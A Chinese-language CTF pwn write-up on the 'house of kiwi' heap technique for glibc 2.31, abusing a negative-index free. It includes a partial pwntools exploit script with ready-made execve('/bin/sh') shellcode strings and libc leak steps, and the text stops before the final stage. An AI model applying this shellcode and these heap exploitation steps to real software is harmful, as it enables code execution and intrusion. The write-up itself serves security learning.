 ### house of kiwi(数组越界/libc2.31)

![image-20220528224905171](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220528224905171.png)

mmap了一块区域来管理堆

![image-20220528224945469](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220528224945469.png)

dele时存在负数越界，我们只要用mmap申请一个堆，那这里free就能访问到我们堆里写入的内容，这里我们用来free tcachestruct

![image-20220528225025733](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220528225025733.png)

然后利用任意地址申请实现houseofkiwi

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux', log_level='debug')

p = process('./pwn')
elf = ELF("./pwn")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(size,con='a'):
    sla("Your choice:",1)
    sla("Size:",size)
    p.sendafter("Content:",con)

def show(idx):
    sla("Your choice:",3)
    sla("Idx:",idx)

def dele(idx):
    sla("Your choice:",2)
    sla("Idx:",idx)

add(0x1000) # 0
add(0x1000) # 1
dele(0)
add(0x1500) # 0
add(0x500) # 2
show(2)
ru('Content:')
```